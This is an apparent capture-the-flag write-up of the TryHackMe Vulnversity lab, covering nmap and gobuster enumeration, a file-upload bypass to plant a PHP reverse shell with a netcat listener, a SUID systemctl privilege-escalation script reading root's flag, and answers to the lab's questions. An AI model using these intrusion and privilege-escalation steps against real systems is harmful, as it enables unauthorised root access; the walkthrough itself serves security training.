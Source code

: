 # Tryhackme - Vulnversity - Linux

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -Pn -p- 10.10.72.158
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 14:04 EDT
Warning: 10.10.72.158 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.72.158
Host is up (0.22s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           vsftpd 3.0.3
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp   open     netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1281/tcp  filtered healthd
3128/tcp  open     http-proxy    Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp  open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
[STRIPPED]
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Linux 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-05-08T14:16:34-04:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-08T18:16:34
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 710.19 seconds
```

## Initial foothold

If we go to http://10.10.72.158:3333/ we have a website.
However the content is not really useful for us.
We can run gobuster, that is how we find the folder internal
```
┌──(root💀kali)-[~/Documents/tryhackme/vulnversity]
└─# gobuster dir -u http://10.10.72.158:3333/ --wildcard -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.72.158:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/08 14:17:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.72.158:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.72.158:3333/css/]   
/js                   (Status: 301) [Size: 316] [--> http://10.10.72.158:3333/js/]    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.72.158:3333/fonts/] 
/internal             (Status: 301) [Size: 322] [--> http://10.10.72.158:3333/internal/]
```
- This a page with a file upload fonctionnality. This is perfect for a reverse shell  
![image](https://user-images.githubusercontent.com/96747355/167309849-79c67895-2633-4426-897a-7d7ad3aa1f5a.png)  
- After a few tries with burp, the accepted exentions is phtml. You can also fuzz it with burp intruder and make a grep match on "extension not allowed" to see which one will be allowed.
- We edit php revershell (on kali we have it preinstalled) `cp /usr/share/webshells/php/php-reverse-shell.php .` we rename it in the accepted extension `mv php-reverse-shell.php php-reverse-shell.phtml` 
- `nc -lvp 4444` We set up our listener
- Now as mentioned we just need to go to `http://<ip>:3333/internal/uploads/php-reverse-shell.phtml ` to execute our shell (if this was not specified we could have run gobuster in the internal folder
- We get a shell as `www-data`


## Privesc

- Now let's enumerate our ways to privesc
- `find / -perm -u=s -type f 2>/dev/null` We have a few files with suid bit on
```
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
- We have a GTFOBins entry for `/bin/systemctl` [here](https://gtfobins.github.io/gtfobins/systemctl/#suid)
- Let's try the exploitation
  - It creates a service in an env
  - It will create a temp file in the syst as a service
  - This will execute a command with bin/sh (in GTFObins it will execute id) in our case we could try to output our root flag in the output folder. It will then set a link and enable it
- Here is our modified script
```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Once we pasted all our commands above we just need to `cat /tmp/output` and this will give us the root flag.

## Questions

### Task 2

- `Scan the box, how many ports are open?` Answer `6`
- `What version of the squid proxy is running on the machine?`Answer `3.5.12`
- `How many ports will nmap scan if the flag -p-400 was used?` Answer `400`
- `Using the nmap flag -n what will it not resolve?` Answer `DNS`
- `What is the most likely operating system this machine is running?` Answer `Ubuntu`
- `What port is the web server running on?` Answer `3333`

### Task 3

- `What is the directory that has an upload form page?` Answer `/internal/`

#### Task 4

- `Run this attack, what extension is allowed?` Answer `phtml`
- `What is the name of the user who manages the webserver?` Answer `bill`
- `What is the user flag?` I will let you do this on your own Hint: `cat /home/bill/user.txt`

#### Task 5

- `On the system, search for all SUID files. What file stands out?` Answer `/bin/systemctl`
- `Become root and get the last flag (/root/root.txt)` I will let you do this on your own Hint: `cat /root/root.txt`
